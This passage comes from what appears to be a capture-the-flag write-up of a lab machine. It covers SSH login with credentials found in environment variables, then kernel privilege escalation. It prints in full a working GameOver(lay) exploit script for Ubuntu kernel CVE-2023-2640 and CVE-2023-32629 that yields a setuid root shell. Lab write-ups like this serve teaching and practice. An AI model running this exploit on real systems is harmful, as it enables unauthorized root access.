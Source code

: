 Among the various entries, two variables stood out:

- META_USER: A username for what seemed to be a system account.
- META_PASS: A password that accompanied the username.

![image](https://github.com/PKHarsimran/PKHarsimran.github.io/assets/22066581/69b825d4-2ea1-468e-a812-b780d248dbd4)

With these credentials in hand, I proceeded to attempt SSH access to the host. Using the META_USER and META_PASS, I was able to successfully authenticate over SSH, gaining a more stable and reliable connection to the target system.

![image](https://github.com/PKHarsimran/PKHarsimran.github.io/assets/22066581/4b027c91-f436-4624-b3a3-b0f58430574a)

This sequence of events—from discovering sensitive environment variables to leveraging them for SSH access and finally locating the user flag—demonstrates a successful user-level compromise of the target system.

## Task 10: Privilege Escalation and Root Flag Acquisition
After stabilizing my SSH foothold as metalytics, I executed the uname -a command to determine the system's kernel version:
```bash
uname -a
```

```
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```
The output revealed a kernel version potentially vulnerable to recent exploits [(CVE-2023-2640 and CVE-2023-32629)](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629). Armed with this knowledge, I crafted a exploit.sh script in the /tmp directory to exploit these vulnerabilities:
```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
Running this script successfully exploited the kernel vulnerabilities, granting me root privileges. I then navigated to the root user's home directory and listed its contents, where I found the root.txt file:

![image](https://github.com/PKHarsimran/PKHarsimran.github.io/assets/22066581/d93be8ff-0895-4091-8b76-c30468b9d97d)
